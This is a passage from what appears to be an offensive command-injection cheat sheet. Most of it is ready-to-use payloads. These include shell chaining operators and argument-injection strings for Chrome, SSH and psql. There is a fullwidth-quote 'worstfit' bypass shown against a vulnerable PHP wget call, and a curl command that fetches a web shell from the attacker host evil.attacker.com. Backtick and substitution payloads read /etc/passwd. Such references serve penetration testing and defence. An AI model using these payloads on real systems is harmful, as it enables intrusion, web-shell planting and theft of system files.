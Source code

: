 ```powershell
command1; command2   # Execute command1 and then command2
command1 && command2 # Execute command2 only if command1 succeeds
command1 || command2 # Execute command2 only if command1 fails
command1 & command2  # Execute command1 in the background
command1 | command2  # Pipe the output of command1 into command2
```


### Argument Injection

Gain a command execution when you can only append arguments to an existing command.
Use this website [Argument Injection Vectors - Sonar](https://sonarsource.github.io/argument-injection-vectors/) to find the argument to inject to gain command execution.

* Chrome
    ```ps1
    chrome '--gpu-launcher="id>/tmp/foo"'
    ```

* SSH
    ```ps1
    ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
    ```

* psql
    ```ps1
    psql -o'|id>/tmp/foo'
    ```

Argument injection can be abused using the [worstfit](https://blog.orange.tw/posts/2025-01-worstfit-unveiling-hidden-transformers-in-windows-ansi/) technique.

In the following example, the payload `＂ --use-askpass=calc ＂` is using **fullwidth double quotes** (U+FF02) instead of the **regular double quotes** (U+0022)

```php
$url = "https://example.tld/" . $_GET['path'] . ".txt";
system("wget.exe -q " . escapeshellarg($url));
```

Sometimes, direct command execution from the injection might not be possible, but you may be able to redirect the flow into a specific file, enabling you to deploy a web shell.

* curl
    ```ps1
    # -o, --output <file>        Write to file instead of stdout
    curl http://evil.attacker.com/ -o webshell.php
    ```
    

### Inside A Command

* Command injection using backticks. 
  ```bash
  original_cmd_by_server `cat /etc/passwd`
  ```
* Command injection using substitution
  ```bash
  original_cmd_by_server $(cat /etc/passwd)
  ```
